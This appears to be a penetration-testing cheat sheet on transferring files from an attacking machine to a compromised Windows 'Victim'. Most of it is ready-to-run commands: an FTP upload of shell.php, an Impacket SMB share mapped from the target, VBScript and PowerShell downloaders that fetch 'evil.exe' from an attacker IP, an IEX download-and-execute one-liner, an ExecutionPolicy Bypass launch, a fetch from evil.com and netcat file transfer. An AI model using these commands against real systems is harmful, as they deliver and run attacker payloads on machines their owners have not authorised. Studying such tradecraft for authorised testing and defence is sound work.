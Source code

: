   Potential tools that can be used:

-  wget
-  Python Simple Server Module 
-  FTP
-  nmap http-put
-  wget.vbs/ps1 (see below)
-  Cadaver
-  [Swego](https://github.com/nodauf/Swego)
-  [satellite](https://github.com/t94j0/satellite)
-  [pwndrop](https://github.com/kgretzky/pwndrop)

### FTP

If you have FTP access, you can try "putting" a file:

`ftp> put shell.php`

### Simple HTTP Server with Python

Turn current (kali) directory into a webserver (won't have to copy to /var/www/html):

`$ python -m SimpleHTTPServer <port#>`

### Impacket SMB Server

Attacking machine:

`$ impacket-smbserver GetchShare $(pwd) -smb2support -user Getch -password I@mGr00t!`

Target machine (Windows):

```powershell
PS C:\> $pass = convertto-securestring 'I@mGr00t!' -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential('Getch', $pass)
PS C:\> New-PSDrive -Name Getch -PSProvider FileSystem -Credential $cred -Root [\\<attacking_IP>\GetchShare](file://%3cattacking_IP%3e/GetchShare)
PS C:\> cd GetchShare:
PS GetchShare:\> echo "tada!"
```

### Python SMTP Server

`$ sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25`

### wget.vbs:

```shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

**USAGE**:

`C:\Users\Victim>cscript wget.vbs [http://attacking_IP/evil.exe](http://attacking_IP/evil.exe) evil.exe`

### wget.ps1

```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "[http://attacking_IP/evil.exe](http://attacking_IP/evil.exe)" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

**USAGE**:

`C:\Users\Victim>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`

### Downloading from PowerShell:

`PS C:\Users\Victim> IEX(New-Object Net.WebClient).downloadString('http://AttackerIP:port/FileToDownload.exe')`

or

`PS C:\Users\Victim> IEX(New-Object Net.WebClient).DownloadFile('http://AttackerIP:port/FileToDownload.exe','C:\Users\Victim\Writeable-Directory\FileToDownload.exe')`

or

`cmd /c powershell IEX(New-Object Net.WebClient).DownloadFile('http://AttackerIP:port/FileToDownload.exe','C:\Users\Victim\Writeable-Directory\FileToDownload.exe')`

or 

`PS C:\Users\Victim> Invoke-WebRequest -Uri https://evil.com/evil.exe -OutFile evil.exe`

### Nc

On the receiving end, running...

`nc -l -p 1234 > out.file`

...will begin listening on port 1234.

On the sending end, running...

`nc -w 3 \[destination\] 1234 < out.file`

...will connect to the receiver and begin sending file.

From <[https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)\>